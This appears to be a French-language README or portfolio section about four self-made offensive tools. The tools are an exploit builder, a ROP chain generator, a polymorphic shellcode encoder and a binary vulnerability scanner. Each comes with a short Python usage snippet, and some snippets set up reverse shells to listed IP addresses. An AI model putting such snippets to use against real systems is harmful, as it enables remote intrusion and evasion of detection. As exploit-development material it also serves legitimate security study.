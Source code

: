## 🛠️ Outils Développés

### 1. **ExploitCraft** - Framework de développement d'exploits
```python
# Générateur d'exploits modulaire avec templates
from exploitcraft import ExploitBuilder

builder = ExploitBuilder()
builder.add_overflow("EIP", offset=146)
builder.add_rop_chain(gadgets_file="rop_gadgets.txt")
builder.add_shellcode("reverse_shell", lhost="10.0.0.1", lport=4444)
exploit = builder.generate()
```

### 2. **ROPMaster** - Générateur automatique de chaînes ROP
```python
# Recherche et génération automatique de chaînes ROP
from ropmaster import ROPChainGenerator

generator = ROPChainGenerator("vulnerable_binary.exe")
chain = generator.find_chain("execve", ["/bin/sh", "0", "0"])
print(f"ROP Chain: {chain.to_bytes()}")
```

### 3. **ShellForge** - Encodeur de shellcodes avancé
```python
# Création de shellcodes polymorphes et encodés
from shellforge import ShellcodeEncoder

encoder = ShellcodeEncoder()
shellcode = encoder.generate("reverse_tcp", host="192.168.1.100", port=443)
encoded = encoder.encode(shellcode, technique="xor_poly", iterations=3)
```

### 4. **VulnHunter** - Scanner de vulnérabilités personnalisé
```python
# Détection automatique de vulnérabilités exploitables
from vulnhunter import BinaryScanner

scanner = BinaryScanner("target_application")
vulns = scanner.scan_for_overflows()
for vuln in vulns:
    print(f"Found: {vuln.type} at {vuln.location}")
```

## 📖 Guides Pratiques

